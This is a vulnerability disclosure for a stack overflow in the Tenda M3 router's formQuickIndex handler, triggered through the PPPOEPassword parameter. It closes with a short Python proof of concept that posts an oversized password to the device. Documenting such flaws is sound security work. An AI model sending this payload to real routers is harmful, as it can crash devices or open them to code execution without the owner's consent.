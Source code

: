 # Tenda M3 formQuickIndex
### Overview
vendor: Tenda

product: M3

version: v1.0.0.12

type: Stack Overflow
### Vulnerability Description
Tenda M3 v1.0.0.12 were discovered to contain a stack overflow via the PPPOEPassword parameter in the formQuickIndex function.

### Vulnerability details
In function formQuickIndex line 15, it reads in a user-provided parameter `PPPOEPassword`. The variable `v8` is passed as a parameter to the `sub_46AE0` function. The `sub_46AE0` function performs loop copy without any length check, which may overflow the stack-based buffer `s`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/4.png)

![](images/5.png)

### POC
```python
import requests

data = {
    "PPPOEPassword": "a"*0x2000
}
cookies = {
    "user": "admin"
}
res = requests.post("http://192.168.0.1/goform/QuickIndex", data=data, cookies=cookies)
print(res.content)
```